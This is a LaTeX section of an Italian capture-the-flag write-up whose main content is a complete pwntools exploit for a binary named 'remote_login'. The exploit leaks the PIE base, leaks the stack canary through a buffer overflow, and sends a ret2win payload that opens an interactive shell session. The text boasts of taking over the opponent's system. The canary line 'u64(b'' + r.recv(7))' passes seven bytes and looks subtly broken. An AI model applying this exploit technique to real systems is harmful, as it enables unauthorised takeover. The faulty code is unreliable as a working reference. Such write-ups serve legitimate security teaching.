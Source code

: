\documentclass[main.tex]{subfiles}
\begin{document}
Ormai abbiamo vinto! ci basta eseguirlo in remoto (o in locale per provare), e prenderci il sistema avversario.
\begin{figure}[h]
    \centering
    \captionsetup{aboveskip=0pt}
\end{figure}

\newpage
\subsection{Final Exploit Code}
\begin{python}
from pwn import *
u64 = util.packing.u64
p64 = util.packing.p64

exe = ELF('./remote_login')
context.binary = exe

def conn():
    if args.REMOTE:
        return remote('127.0.0.1', 1337)
    return process(exe.path)

def main():
    r = conn()

    # PIE leak
    r.recvuntil(b'user_')
    main_leak = int(r.recvline().strip().decode(), 16)
    exe.address = main_leak - exe.sym['main']
    success(f'base address: {hex(exe.address)}')

    # Canary leak
    r.recvuntil(b'username: ')
    payload = cyclic(64 + 8)
    r.sendline(payload)
    r.recvuntil(b'Hello')
    r.recvline()
    canary = u64(b'' + r.recv(7))
    success(f'canary: {hex(canary)}')

    # ret2win
    payload = flat(
        b'A' * 4, # pin
        payload, # username
        canary, # canary
        b'A' * 8, # rbp
        exe.sym['check_pin'] + (0x136C - 0x134E), # ret/win address
    )
    r.recvline()
    r.sendline(payload)
    r.interactive()

if __name__ == '__main__':
	main()
\end{python}
\end{document}
